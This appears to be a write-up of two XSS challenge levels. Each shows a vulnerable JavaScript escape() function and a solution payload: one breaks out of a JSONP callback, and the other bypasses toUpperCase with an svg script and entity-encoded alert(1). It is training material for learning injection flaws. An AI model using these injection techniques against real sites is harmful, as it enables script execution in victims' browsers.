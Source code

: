 {% highlight javascript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
{% endhighlight %}

once again we have a function that concatenates user input to call a function in a unsecure way... if we input `callback#raz` we got the following output:

```
<script>callback({"userdata":"raz"})</script>
```

so our input is inserted right on the middle of the scripts tags, we just need to escape the validation, how?

<br><br><br><br>**Solution**:<br><br><br><br>

```
'#';alert(1);//
```

output:

{% highlight javascript %}
<script>'({"userdata":"';alert(1);//"})</script>
{% endhighlight %}

# Skandia

{% highlight javascript %} 
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
{% endhighlight %}

this one is quite similar to the first one, the thing is if we try input something like `");<script>alert(1)</script>` we got the following output:

```
<script>console.log("");<SCRIPT>ALERT(1)</SCRIPT>")</script>
```

which doesn't exploits... the challenge here resides in finding an input that can bypass the `toUpperCase` method...

<br><br><br><br>**Solution**:<br><br><br><br>

{% highlight javascript %} 
");</script><svg><script>&#x61&#x6C&#x65&#x72&#x74(1)//
{% endhighlight %}

